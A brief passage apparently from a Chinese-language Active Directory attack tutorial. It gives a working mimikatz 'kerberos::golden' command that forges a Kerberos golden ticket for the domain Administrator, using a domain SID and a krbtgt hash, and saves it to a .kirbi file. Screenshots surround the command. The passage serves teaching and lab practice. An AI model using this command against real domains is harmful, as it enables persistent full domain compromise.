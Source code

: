 ![image-20210916204637980](image/image-20210916204637980.png)

④我们还可以制作黄金票据并保存为golden_ticket.kirbi文件

```sh
kerberos::golden /admin:Administrator /domain:y5nekoad.com /sid:S-1-5-21-1272869298-2579316034-2461789828 /krbtgt:c6c752f26fddb1fa1e8826403fcf4eb2 /ticket:golden_ticket.kirbi		#若需要aes则将krbtgt换成aes256
```

![image-20210916205224446](image/image-20210916205224446.png)

![image-20210916205250338](image/image-20210916205250338.png)
